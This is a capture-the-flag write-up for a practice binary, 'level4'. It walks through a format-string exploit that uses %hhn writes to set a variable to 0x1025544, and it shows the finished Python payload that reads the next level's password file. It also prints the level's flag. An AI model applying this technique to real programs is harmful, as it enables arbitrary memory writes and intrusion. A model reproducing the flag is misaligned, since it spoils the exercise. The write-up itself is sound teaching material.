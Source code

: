 # level4

We find an executable `level4`. We examine it in Cutter. We determine it's similar to `level3` ; we'll have to exploit `%n` to set a variable to a specific value.

However, something's different this time : the number to write with `%n` is too big, we can't write that many bytes.

However, we can still take advantage of `%n`, using the `h` flag : `%hn` is for `short int`, and `%hhn` for `short short int` which allows us to write a one-byte value.

Here's what we'll do : we'll break down the 4-byte int, specify the 4 bytes as individual addresses and fill them with the corresponding byte.

## The value

Cutter reveals our variable should have the value `0x1025544`.

This can be broken down in four :
- `0x01` or `1`
- `0x02` or `2`
- `0x55` or `85`
- `0x44` or `68`

The `%n` count doesn't reset, so we'll write the total in ascending order. We'll need to write `1` char and fill the first byte ; write `1` char and fill the second byte ; write `66` chars and fill the last byte ; and write `17` chars and fill the third byte.

## The address

Cutter tells us the variable to .

Running `info variable` in `gdb` yields us `m`'s address : `0x08049810`.

This gives us our four addresses (without forgetting to reverse the order for endianness) :

- Write value `0x01` to address `0x08049813`
- Write value `0x02` to address `0x08049812`
- Write value `0x55` to address `0x08049811`
- Write value `0x44` to address `0x08049810`

## The buffer

Quick experimentation reveals the beginning of the buffer is at spot `%12$`.

We'll want our buffer to look like the following :

```
12   13   14   15   16   17   18   19   20   21
AAAA BBBB CCCC DDDD EEEE FFFF GGGG HHHH IIII JJJJ

22   23   24   25   26   27   28   29   30   31
KKKK LLLL MMMM NNNN OOOO PPPP QQQQ RRRR SSSS TTTT

32   33   34   35   36   37   38   39   40
UUUU VVVV WWWW XXXX YYYY ZZZZ ++++ ---- ....
```

We write our `%??$hhn` after `1`, `2`, `68` and `85` bytes written (don't forget `%??$hhn` doesn't count as written bytes) :

```
12   13   14   15   16   17   18   19   20   21
A%?? $hhn C%?? $hhn EEEE FFFF GGGG HHHH IIII JJJJ

22   23   24   25   26   27   28   29   30   31
KKKK LLLL MMMM NNNN OOOO PPPP QQQQ RRRR SSSS TTTT

32   33   34   35   36   37   38   39   40
UU%? ?$hh nWWW XXXX YYYY ZZZZ ++%? ?$hh n...
```

We add our addresses in spots `20-23` :

```
12   13   14   15   16   17   18   19   20         21
A%?? $hhn C%?? $hhn EEEE FFFF GGGG HHHH 0x08049810 0x08049811

22         23         24   25   26   27   28   29   30   31
0x08049812 0x08049813 MMMM NNNN OOOO PPPP QQQQ RRRR SSSS TTTT

32   33   34   35   36   37   38   39   40
UU%? ?$hh nWWW XXXX YYYY ZZZZ ++%? ?$hh n...
```

Now all that's left is replacing each `??` with the index of the address you wanna fill each value with :

```
12   13   14   15   16   17   18   19   20         21
A%23 $hhn C%22 $hhn EEEE FFFF GGGG HHHH 0x08049810 0x08049811

22         23         24   25   26   27   28   29   30   31
0x08049812 0x08049813 MMMM NNNN OOOO PPPP QQQQ RRRR SSSS TTTT

32   33   34   35   36   37   38   39   40
UU%2 0$hh nWWW XXXX YYYY ZZZZ ++%2 1$hh n...
```

## The exploit

We turn that into something we can output in Python :

```
python -c 'print("A%23$hhnC%22$hhnEEEEFFFFGGGGHHHH\x10\x98\x04\x08\x11\x98\x04\x08\x12\x98\x04\x08\x13\x98\x04\x08MMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUU%20$hhnWWWXXXXYYYYZZZZ++%21$hhn...")'
```

After a little cleanup, we get :

```
python -c 'print("_%23$hhn_%22$hhn________________\x10\x98\x04\x08\x11\x98\x04\x08\x12\x98\x04\x08\x13\x98\x04\x08__________________________________%20$hhn_________________%21$hhn")'
```

## The flag

Now we just have to pipe that to `level4`, who directly runs `system ("/bin/cat /home/user/level5/.pass");`

```
python -c 'print("_%23$hhn_%22$hhn________________\x10\x98\x04\x08\x11\x98\x04\x08\x12\x98\x04\x08\x13\x98\x04\x08__________________________________%20$hhn_________________%21$hhn")' | ./level4
```

It works ! We get the `level4` flag :

```
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```